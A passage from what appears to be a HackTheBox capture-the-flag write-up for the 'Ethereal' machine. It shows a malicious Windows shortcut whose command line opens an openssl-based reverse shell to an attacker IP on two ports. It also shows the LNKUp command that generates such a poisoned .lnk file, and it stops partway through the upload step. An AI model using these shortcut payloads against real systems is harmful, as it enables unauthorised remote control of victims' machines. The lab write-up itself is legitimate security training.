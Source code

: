 ```
Volume Serial: f06e7663
Vol Label: 
Base Path: C:\Windows\System32\cmd.exe
(App Path:) Remaining Path: 
Relative Path: ..\..\..\Windows\System32\cmd.exe
Working Dir: D:\Program Files (x86)\Microsoft Visual Studio\2017\Community\Common7\IDE
Command Line: /c c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136

```

#### LNKUp

[LNKUp](https://github.com/Plazmaz/LNKUp) is an lnk payload generator written in python. LNKUp is really designed to work with Responder to capture Net-NTLM, but I can use it to make the payload I want for this case. To create a similar lnk file to the one I did above, I’ll run the following:

```

root@kali# python /opt/LNKUp/generate.py --host localhost --type ntlm --out vs-mod.lnk --execute "C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73|cmd.exe|C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"

  ~==================================================~
##                                                    ##
##  /$$       /$$   /$$ /$$   /$$ /$$   /$$           ##
## | $$      | $$$ | $$| $$  /$$/| $$  | $$           ##
## | $$      | $$$$| $$| $$ /$$/ | $$  | $$  /$$$$$$  ##
## | $$      | $$ $$ $$| $$$$$/  | $$  | $$ /$$__  $$ ##
## | $$      | $$  $$$$| $$  $$  | $$  | $$| $$  \ $$ ##
## | $$      | $$\  $$$| $$\  $$ | $$  | $$| $$  | $$ ##
## | $$$$$$$$| $$ \  $$| $$ \  $$|  $$$$$$/| $$$$$$$/ ##
## |________/|__/  \__/|__/  \__/ \______/ | $$____/  ##
##                                         | $$       ##
##                                         | $$       ##
##                                         |__/       ##
  ~==================================================~

File saved to /media/sf_CTFs/hackthebox/ethereal-10.10.10.106/vs-mod2.lnk
Link created at vs-mod2.lnk with UNC path \\localhost\Share\36855.ico.

```

The `--host` and `--type` parameters are really just to get it to run. The important part is the `--execute`.

For some reason, `pylnker` can’t read anything from the file that is generated. Still, this file will work.

### Upload

Now I want to get the poisoned lnk file to target. I’ll kill the output connection I currently have on port 136. I can still issue commands to port 73, I just won’t see the output. Then I can serve the link file with `ncat`, and then use `openssl` to get upload the file. I’ll issue this command into the port 73 terminal:
